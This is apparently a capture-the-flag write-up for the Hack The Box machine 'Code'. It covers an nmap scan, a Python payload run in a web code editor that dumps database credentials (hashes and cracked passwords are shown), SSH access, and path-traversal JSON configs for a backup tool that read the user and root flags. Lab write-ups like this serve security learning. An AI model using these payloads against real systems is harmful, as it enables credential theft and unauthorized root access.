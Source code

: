 # Code Write-up

<img src="https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.11.62`

    PORT     STATE    SERVICE   VERSION
    22/tcp   open     ssh       OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
    |   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
    |_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
    5000/tcp open     http      Gunicorn 20.0.4
    |_http-title: Python Code Editor
    |_http-server-header: gunicorn/20.0.4
    9898/tcp filtered monkeycom
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Exploitation 

We can see that port 5000 is running a Python Code Editor.

![image](https://github.com/user-attachments/assets/64329268-39d2-469b-9b09-134864bc0cc4)

Use payload:

    print([(user.id, user.username, user.password) for user in User.query.all()])

![image](https://github.com/user-attachments/assets/92fb4455-617b-4f0c-9bd8-e3cdc8c175f1)

Credentials:

    development:759b74ce43947f5f4c91aeddc3e5bad3
    
    martin:3de6f30c4a09c27fc71932bfc68474be
    
    1:c4ca4238a0b923820dcc509a6f75849b

We can use CrackStation

![image](https://github.com/user-attachments/assets/a691af07-fe5f-4653-bb4b-b2be4a868b4b)

![image](https://github.com/user-attachments/assets/8df2dc7a-163f-42a2-aae1-966d255f0329)

![image](https://github.com/user-attachments/assets/52502a54-c3a7-4a84-93ee-697ad8a9d519)

Passwords

`development`:`development`

`martin`:`nafeelswordsmaster`

## SSH

![image](https://github.com/user-attachments/assets/771c020d-8b06-43f8-bf6d-1efe1893f457)

![image](https://github.com/user-attachments/assets/0f7458be-8b8f-45ca-b973-4fc1bb80bdda)

![image](https://github.com/user-attachments/assets/ffeca174-7211-4583-a115-87c7ffad4a45)

![image](https://github.com/user-attachments/assets/f7bc8ab2-accc-41ea-8cd2-8d7055ef1ad2)

![image](https://github.com/user-attachments/assets/94b628f7-6a92-43b6-b553-4402d6d1c567)

    {
    “destination”: “/home/martin/”,
    “multiprocessing”: true,
    “verbose_log”: false,
    “directories_to_archive”: [
    “/home/app-production/user.txt”
    ]
    }

![image](https://github.com/user-attachments/assets/52bc9d84-f57c-4958-a3ab-19840b7022d8)

![image](https://github.com/user-attachments/assets/e037c2e8-6142-43e2-baba-03624b639a41)

![image](https://github.com/user-attachments/assets/d99448ae-4d95-46c1-bdd2-35d05a2221c1)

Get the user flag!

![image](https://github.com/user-attachments/assets/929e6daa-a817-4c99-bba9-8d3634d882ca)

Privilege Escalation

    {
    “destination”: “/home/martin/”,
    “multiprocessing”: true,
    “verbose_log”: true,
    “directories_to_archive”: [
    “/var/….//root/”
    ]
    }

![image](https://github.com/user-attachments/assets/571a91cb-c7f5-4d21-bbd4-4213ed9a6a69)

Get the root flag!

![image](https://github.com/user-attachments/assets/60a4d038-0792-4447-8de9-d619e4781f23)
